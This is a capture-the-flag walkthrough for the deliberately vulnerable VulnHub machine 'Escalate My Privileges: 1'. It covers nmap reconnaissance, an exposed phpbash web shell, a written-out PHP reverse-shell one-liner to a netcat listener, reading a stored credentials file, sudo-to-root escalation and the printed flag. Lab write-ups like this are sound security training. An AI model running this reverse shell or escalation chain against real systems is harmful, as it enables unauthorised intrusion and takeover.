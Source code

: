 # Escalate My Privileges: 1

- [Tools](#tools)
- [Gaining Access](#gaining-access)
- [Priviledge Escalation](#priviledge-escalation)

Machine: https://www.vulnhub.com/entry/escalate-my-privileges-1,448/ 

## Tools
1. [NMap](https://NMap.org)
2. netcat
3. md5sum

## Gaining Access
1. After Running the VM as bridged connection, I checked my gateway page to find IP. In my case ip is `192.168.0.11`.
2. Scan with `NMap` gives some open ports.
3. Nmap with this command `nmap -A 192.168.0.11` gives an url `http://192.168.0.11/phpbash.php`.
4. It’s a shell on that link. We can execute command as user `apache`.
5. Running this command `php -r '$sock=fsockopen("192.168.0.4",1337);exec("/bin/sh -i <&3 >&3 2>&3");'` with my ip port gives a `netcat` shell to my listner `nc -lvnp 1337`.
6. We got shell as `armour`.

## Priviledge Escalation
1. On `/home/armour` directory there is a file named `Credentials.txt`. Inside it we get password `md5(rootroot1)`.
2. Spawn tty shell, convert `md5sum` of the `rootroot1` to use as password. Then login as `armour` with `md5sum` of `rootroot1`.
3. Using `sudo -l` command shows `/bin/bash` could be used to get root shell. 
4. Used `sudo /bin/bash` command to `root`.
5. We can get flag inside `/root/flag.txt` by using command.`cat /root/flag.txt` The flag is  `628435356e49f976bab2c04948d22fe4`.

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
